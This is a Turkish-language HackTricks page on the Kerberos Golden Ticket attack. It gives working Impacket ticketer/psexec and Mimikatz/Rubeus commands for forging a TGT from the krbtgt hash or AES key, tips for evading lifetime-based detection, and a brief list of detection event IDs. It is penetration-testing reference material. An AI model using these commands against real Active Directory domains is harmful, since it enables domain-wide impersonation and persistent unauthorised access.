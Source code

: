 # Golden Ticket

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Golden ticket

Bir **Golden Ticket** saldırısı, **NTLM hash'ini kullanarak herhangi bir kullanıcıyı taklit eden meşru bir Ticket Granting Ticket (TGT) oluşturulmasından** oluşur. Bu teknik, taklit edilen kullanıcı olarak **alan içindeki herhangi bir hizmete veya makineye erişim sağlar**. **krbtgt hesabının kimlik bilgileri asla otomatik olarak güncellenmez** olduğunu hatırlamak önemlidir.

**krbtgt hesabının NTLM hash'ini elde etmek için** çeşitli yöntemler kullanılabilir. Bu hash, alan içindeki herhangi bir Domain Controller (DC) üzerindeki **Local Security Authority Subsystem Service (LSASS) sürecinden** veya **NT Directory Services (NTDS.dit) dosyasından** çıkarılabilir. Ayrıca, **DCsync saldırısı gerçekleştirmek**, bu NTLM hash'ini elde etmenin bir başka stratejisidir; bu, Mimikatz'taki **lsadump::dcsync modülü** veya Impacket tarafından sağlanan **secretsdump.py scripti** gibi araçlar kullanılarak yapılabilir. Bu işlemleri gerçekleştirmek için genellikle **alan yöneticisi ayrıcalıkları veya benzer bir erişim seviyesi gereklidir**.

NTLM hash'i bu amaç için geçerli bir yöntem olsa da, operasyonel güvenlik nedenleriyle **Gelişmiş Şifreleme Standardı (AES) Kerberos anahtarları (AES128 ve AES256)** kullanarak biletlerin **sahte olarak oluşturulması** **şiddetle tavsiye edilir**. 

{% code title="From Linux" %}
```bash
python ticketer.py -nthash 25b2076cda3bfd6209161a6c78a69c1c -domain-sid S-1-5-21-1339291983-1349129144-367733775 -domain jurassic.park stegosaurus
export KRB5CCNAME=/root/impacket-examples/stegosaurus.ccache
python psexec.py jurassic.park/stegosaurus@lab-wdc02.jurassic.park -k -no-pass
```
{% endcode %}

{% code title="Windows'tan" %}
```bash
#mimikatz
kerberos::golden /User:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /krbtgt:ff46a9d8bd66c6efd77603da26796f35 /id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt
.\Rubeus.exe ptt /ticket:ticket.kirbi
klist #List tickets in memory

# Example using aes key
kerberos::golden /user:Administrator /domain:dollarcorp.moneycorp.local /sid:S-1-5-21-1874506631-3219952063-538504511 /aes256:430b2fdb13cc820d73ecf123dddd4c9d76425d4c2156b89ac551efb9d591a439 /ticket:golden.kirbi
```
{% endcode %}

**Bir kez** **golden Ticket** enjekte edildiğinde, paylaşılan dosyalara **(C$)** erişebilir ve hizmetleri ve WMI'yi çalıştırabilirsiniz, bu nedenle bir shell elde etmek için **psexec** veya **wmiexec** kullanabilirsiniz (winrm üzerinden bir shell elde edemediğiniz görünüyor).

### Yaygın tespitleri atlatma

Golden ticket'ı tespit etmenin en yaygın yolları, **Kerberos trafiğini** incelemektir. Varsayılan olarak, Mimikatz **TGT'yi 10 yıl boyunca imzalar**, bu da onunla yapılan sonraki TGS isteklerinde anormal olarak öne çıkacaktır.

`Lifetime : 3/11/2021 12:39:57 PM ; 3/9/2031 12:39:57 PM ; 3/9/2031 12:39:57 PM`

Başlangıç ofsetini, süreyi ve maksimum yenilemeleri kontrol etmek için `/startoffset`, `/endin` ve `/renewmax` parametrelerini kullanın (hepsi dakikalar cinsindendir).
```
Get-DomainPolicy | select -expand KerberosPolicy
```
Üzgünüm, TGT'nin ömrü 4769'da kaydedilmediği için bu bilgiyi Windows olay günlüklerinde bulamazsınız. Ancak, **önceki 4768 olmadan 4769'ları görmek** ile ilişkilendirebilirsiniz. **TGT olmadan bir TGS talep etmek mümkün değildir** ve eğer bir TGT'nin verildiğine dair bir kayıt yoksa, bunun çevrimdışı olarak sahte olduğunu çıkarabiliriz.

Bu **algılama** kontrolünü **bypass etmek** için elmas biletleri kontrol edin:

{% content-ref url="diamond-ticket.md" %}
[diamond-ticket.md](diamond-ticket.md)
{% endcontent-ref %}

### Azaltma

* 4624: Hesap Girişi
* 4672: Yönetici Girişi
* `Get-WinEvent -FilterHashtable @{Logname='Security';ID=4672} -MaxEvents 1 | Format-List –Property`

Savunucuların yapabileceği diğer küçük numaralar, **varsayılan etki alanı yöneticisi hesabı gibi hassas kullanıcılar için 4769'lar üzerinde uyarı vermektir**.

## Referanslar
* [https://www.tarlogic.com/blog/how-to-attack-kerberos/](https://www.tarlogic.com/blog/how-to-attack-kerberos/)
* [https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets](https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/kerberos-golden-tickets)

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking numaralarını paylaşmak için [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.**

</details>
{% endhint %}
